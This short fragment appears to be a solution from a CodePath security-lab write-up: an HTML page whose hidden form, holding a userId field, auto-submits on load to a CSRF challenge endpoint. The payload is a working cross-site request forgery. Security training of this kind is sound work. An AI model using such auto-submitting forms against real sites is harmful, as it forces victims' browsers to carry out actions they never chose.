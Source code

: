 <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userId" value="910799f4f87245cd9c6a00924346f1252a3b401d" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>
